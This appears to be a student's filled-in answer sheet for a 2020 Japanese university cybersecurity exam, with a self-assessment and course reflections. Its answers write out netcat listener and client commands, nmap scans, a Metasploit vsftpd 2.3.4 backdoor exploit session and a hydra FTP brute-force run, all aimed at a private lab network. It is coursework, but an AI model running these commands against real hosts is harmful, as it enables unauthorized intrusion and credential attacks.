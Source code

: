 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5555
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.15 5555
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
omas:
omas2:


```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap 192.168.33.0/25
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -o -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
       
vagrant@kali:~/exam20201125$ msfconsole
msf5 >  use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.33.5
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit 
 

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list 192.168.33.5 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 22:19:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28496 login tries (l:8/p:3562), ~1781 tries per task
[DATA] attacking ftp://192.168.33.5:21/
[STATUS] 272.00 tries/min, 272 tries in 00:01h, 28224 to do in 01:44h, 16 active
[STATUS] 277.00 tries/min, 831 tries in 00:03h, 27665 to do in 01:40h, 16 active
[STATUS] 284.00 tries/min, 1988 tries in 00:07h, 26508 to do in 01:34h, 16 active

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
60点
理由
-難しい話が多く、睡魔に負けていた。
-家での復習や、予習を怠った。
-授業の範囲でしか仮想マシンを使わなかった。
-ハッキングの一連の流れの理解が、あまりできていなかった。


```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
-git
-vagrant,virtualBoxのインストール
-Vagrantの使い方
　-init
　-up,halt
　-ssh
-KaliとMetasploitの通信方法
-GUI/CUIの切り替え

-ip aでIPアドレスの確認ができる
-ping IPアドレス　でそのIPアドレスと通信ができているか確認ができる
-nc でチャットができる
-nmap　で範囲を決めて調べることができる


この講義で学んだことは多すぎて、まだしっかり覚えてないものも結構あるので
これからも勉強に励みたいと思います
先生の教え方はわかりやすく授業も楽しかったです
tcpdump,wireshark,msfconsoleなどをしっかり理解できるようにします


```
